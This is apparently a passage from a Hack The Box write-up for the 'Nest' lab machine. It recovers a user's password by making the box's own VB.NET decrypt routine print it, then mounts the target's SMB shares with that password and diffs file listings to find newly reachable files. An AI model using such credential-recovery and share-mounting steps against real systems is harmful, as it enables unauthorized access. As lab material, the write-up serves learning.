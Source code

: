 Decrypt function is defined in Utils.vb, Main function in Module1.vb is the entry point so placing a Console.WriteLine gives us the password.

* c.smith:xRxRxPANCAK3SxRxRx



# C Smith
![](vx_images/972448042963.png)

Take note of the files TempUser has access to so we can compare after remounting as another user

```bash
┌─[user@parrot]─[10.10.14.18]─[~/htb/nest/Carl/RUScanner]
└──╼ $ find /mnt/nest/ -type f -ls 2>/dev/null  > ~/htb/nest/tempuser-ls.log
```
```bash
┌─[user@parrot]─[10.10.14.18]─[~/htb/nest/Carl/RUScanner]
└──╼ $ sudo mount -t cifs -o user='c.smith',pass='xRxRxPANCAK3SxRxRx' //10.10.10.178/Users /mnt/nest/Users/
┌─[user@parrot]─[10.10.14.18]─[~/htb/nest/Carl/RUScanner]
└──╼ $ sudo mount -t cifs -o user='c.smith',pass='xRxRxPANCAK3SxRxRx' //10.10.10.178/Data /mnt/nest/Data/
┌─[user@parrot]─[10.10.14.18]─[~/htb/nest/Carl/RUScanner]
└──╼ $ sudo mount -t cifs -o user='c.smith',pass='xRxRxPANCAK3SxRxRx' //10.10.10.178/Secure$ /mnt/nest/Secure
┌─[user@parrot]─[10.10.14.18]─[~/htb/nest/Carl/RUScanner]
└──╼ $ find /mnt/nest/ -type f -ls 2>/dev/null > ~/htb/nest/csmith-ls.log
┌─[user@parrot]─[10.10.14.18]─[~/htb/nest/Carl/RUScanner]
└──╼ $ diff ~/htb/nest/csmith-ls.log ~/htb/nest/tempuser-ls.log 
1,4c1
< 1125899906901382     20 -rwxr-xr-x   1 root     root        17408 Aug  8  2019 /mnt/nest/Users/C.Smith/HQK\ Reporting/AD\ Integration\ Module/HqkLdap.exe
< 2251799813744259      0 -rwxr-xr-x   1 root     root            0 Aug  9  2019 /mnt/nest/Users/C.Smith/HQK\ Reporting/Debug\ Mode\ Password.txt
< 1407374883612021      1 -rwxr-xr-x   1 root     root          249 Aug  9  2019 /mnt/nest/Users/C.Smith/HQK\ Reporting/HQK_Config_Backup.xml
< 1407374883553549      1 -rwxr-xr-x   1 root     root           32 Aug  9  2019 /mnt/nest/Users/C.Smith/user.txt
---
> 1970324837032943      0 -rwxr-xr-x   1 root     root            0 Aug  8  2019 /mnt/nest/Users/TempUser/New\ Text\ Document.txt
```
